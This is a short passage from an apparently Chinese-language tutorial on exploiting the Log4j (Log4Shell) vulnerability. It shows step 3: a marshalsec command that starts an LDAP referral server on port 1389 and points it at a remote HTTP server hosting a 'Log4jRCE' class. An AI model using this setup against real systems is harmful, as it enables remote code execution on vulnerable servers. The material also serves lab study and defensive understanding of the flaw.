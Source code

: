 ![](/img/posts/log4j-remote-class-source-code-http-access.png)

3). 在项目`tool`目录下找到文件`marshalsec-0.0.3-SNAPSHOT-all.jar`，该jar包用于创建简单的`LDAP`服务。启动LDAP服务，默认监听`1389`端口号，需要指定2)中启动的远程http服务：

```shell
#可以在最后加上一个参数指定LDAP服务端口，模式是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:port:8000/#Log4jRCE
```
